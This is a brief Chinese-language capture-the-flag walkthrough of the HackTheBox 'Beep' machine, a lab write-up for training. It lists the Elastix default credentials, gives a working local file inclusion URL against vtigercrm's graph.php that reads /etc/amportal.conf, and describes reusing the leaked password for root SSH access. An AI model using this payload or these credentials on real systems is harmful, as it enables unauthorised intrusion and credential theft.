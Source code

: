 ```yaml
---
layout: post
title:  "HackTheBox >_ Beep_7"
description: walkthrough
category: HackTheBox
---
```

# Beep_7

![image-20200928143812410]({{ site.url }}/assets/Beep_7.assets/image-20200928143812410.png)

太简单了，简单说一下

![image-20200928143910284]({{ site.url }}/assets/Beep_7.assets/image-20200928143910284.png)

Elastix，尝试默认凭证

```bash
Username: admin
Password: palosanto
```


默认密码无法进入

https://www.exploit-db.com/exploits/37637/ 

本地文件包含漏洞

payload

```html
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![image-20200928144102414]({{ site.url }}/assets/Beep_7.assets/image-20200928144102414.png)

右键查看源码页，可以看到整理后到信息

![image-20200928144151530]({{ site.url }}/assets/Beep_7.assets/image-20200928144151530.png)


可以注意到各种密码都是一个`jEhdIekWmdjE`。怀疑有密码复用。

尝试利用此密码登录root的ssh，正确。密码复用。直接root

![image-20200928144242636]({{ site.url }}/assets/Beep_7.assets/image-20200928144242636.png)

在两个用户目录得到flags

![image-20200928144358407]({{ site.url }}/assets/Beep_7.assets/image-20200928144358407.png)